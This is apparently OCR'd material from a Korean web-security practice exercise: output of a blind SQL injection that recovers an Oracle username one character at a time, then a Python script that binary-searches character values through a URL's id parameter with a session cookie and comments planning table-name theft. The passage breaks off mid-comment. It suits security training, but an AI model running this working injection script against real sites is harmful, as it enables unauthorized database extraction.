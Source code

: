 사용자 이름의 6번째 문자: R
실행된 쿼리: (SELECT ASCII(SUBSTR(user, 7, 1)) FROM dual) = 79
실행된 쿼리: (SELECT ASCII(SUBSTR(user, 7, 1)) FROM dual) = 55
실행된 쿼리: (SELECT ASCII(SUBSTR(user, 7, 1)) FROM dual) = 67
실행된 쿼리: (SELECT ASCII(SUBSTR(user, 7, 1)) FROM dual) = 73
실행된 쿼리: (SELECT ASCII(SUBSTR(user, 7, 1)) FROM dual) = 76
사용자 이름의 7번째 문자: L
실행된 쿼리: (SELECT ASCII(SUBSTR(user, 8, 1)) FROM dual) = 79
실행된 쿼리: (SELECT ASCII(SUBSTR(user, 8, 1)) FROM dual) = 55
실행된 쿼리: (SELECT ASCII(SUBSTR(user, 8, 1)) FROM dual) = 67
실행된 쿼리: (SELECT ASCII(SUBSTR(user, 8, 1)) FROM dual) = 73
실행된 쿼리: (SELECT ASCII(SUBSTR(user, 8, 1)) FROM dual) = 70
실행된 쿼리: (SELECT ASCII(SUBSTR(user, 8, 1)) FROM dual) = 68
사용자 이름의 8번째 문자: D
사용자 이름: USEWORLD


5..... 

import requests
requests.packages.urllib3.disable_warnings()

url = "https://elms2.skinfosec.co.kr:8222/practice/practice01/detail?id=62"

cookies = {
    "JSESSIONID":"DD69440070FB72FBDCD551628468CE83"
}


def binarySearch(query):
    min = 1
    max = 127
    while min < max:
        avg = int((min + max) / 2)
        attackQuery = f"({query}) > {avg}"
        attackUrl = url + " and " + attackQuery        
        res = requests.get(attackUrl, cookies=cookies)
        if '권한이' in res.text:
            print("쿠키를 다시 넣어주세요.")
            exit()
        if 'MacBook' in res.text:       
            min = avg + 1          
        else:
            max = avg
    return min


# 1. 테이블 명 탈취
#    select table_name from user_tables;
# 1-1. 테이블 개수
#    select count(table_name) from user_tables;
# 1-2. 테이블 한 row 씩 (X)
#    select table_name from (select table_name, rownum as ln from user_tables) where ln = {1~count}
# 1-2-1. 테이블의 글자 수